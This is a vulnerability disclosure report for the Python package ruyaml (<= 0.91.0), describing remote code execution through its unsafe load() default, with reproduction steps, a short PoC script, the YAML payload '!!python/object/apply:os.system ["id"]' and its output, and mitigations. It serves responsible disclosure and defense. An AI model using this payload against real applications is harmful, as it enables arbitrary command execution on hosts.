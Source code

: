 # Vulnerability Report

## Vulnerability Name
```
Vulnerability Name: ruyaml <= 0.91.0 vulnerable to Remote Code Execution (RCE) via unsafe load() method
```

## Affected URL and Area
```
Affected Package: ruyaml (PyPI)
Affected Module/Function: load()
Affected Version: <= 0.91.0
```

## Vulnerability Description
```
The ruyaml package (a fork of ruamel.yaml) provides YAML parsing for Python. 
Through version 0.91.0, the function `ruyaml.load()` is unsafe when used with untrusted YAML input. 
The default loader allows arbitrary object construction, enabling attackers to inject Python objects 
and execute system commands.

During testing, providing a specially crafted YAML payload such as 
`!!python/object/apply:os.system ["id"]` resulted in the execution of operating system commands. 
This issue arises because `ruyaml.load()` defaults to UnsafeLoader, rather than a SafeLoader 
that restricts arbitrary object instantiation.
```

## Severity and Risk Rating
```
Severity: Critical
Risk Rating: High
```

## CVE, CWE, CVSS Score and Vulnerability Class
```
CVE: Not yet assigned (related: CVE-2019-20478 in ruamel.yaml, CVE-2017-18342 in PyYAML)
CWE-ID: CWE-94 (Improper Control of Generation of Code - Code Injection)
CVSS Score: 9.8 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Vulnerability Class: Unsafe Deserialization / Remote Code Execution
```

## Impact of Vulnerability
```
If an application uses `ruyaml.load()` with user-supplied or untrusted YAML input, 
an attacker can execute arbitrary operating system commands. This may lead to:

- Full compromise of the application host
- Unauthorized access to sensitive data
- Disruption of services (DoS)
- Potential lateral movement within the environment

The severity of this vulnerability is critical, since it enables remote, 
unauthenticated attackers to achieve RCE with minimal effort.
```

## Steps to Reproduce
```
Steps to reproduce:

1. Install ruyaml in a Python environment:
   pip install ruyaml==0.91.0

2. Create a PoC script (poc.py) with the following code:
   import ruyaml
   payload = """!!python/object/apply:os.system [\"id\"]"""
   data = ruyaml.load(payload)
   print(data)

3. Run the script:
   python3 poc.py

4. Observe that the system command `id` is executed on the host, 
   demonstrating Remote Code Execution.
```

## Proof of Concept (PoC)
PoC Script:  
[View poc.py](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/poc.py)

PoC Screenshot:  
![PoC Screenshot](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/poc.png)

Execution Output:  
![Execution Output](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/output.png)

PoC Payload:
```
!!python/object/apply:os.system ["id"]
```

Execution Result (example):
```
uid=0(root) gid=0(root) groups=0(root)
```

## Mitigation/Remediation
```
Mitigation Steps:

1. Avoid using `ruyaml.load()` with untrusted input.
2. Replace with `ruyaml.safe_load()` which restricts unsafe object construction.
3. If complex object support is required, explicitly specify a safe Loader, e.g.:
   ruyaml.load(data, Loader=ruyaml.SafeLoader)
4. Apply input validation before processing user-supplied YAML.
5. Follow security advisories and update to future patched versions of ruyaml.
```

## References
```
- CVE-2019-20478 (ruamel.yaml)
- CVE-2017-18342 (PyYAML)
- CWE-94: Improper Control of Generation of Code ('Code Injection')
- https://nvd.nist.gov/vuln/detail/CVE-2019-20478
- https://cwe.mitre.org/data/definitions/94.html
```

## Disclosure
```
Disclosure Date: 24 August 2025
Reporter: [Your Name / Contact]
Status: Under Responsible Disclosure
```
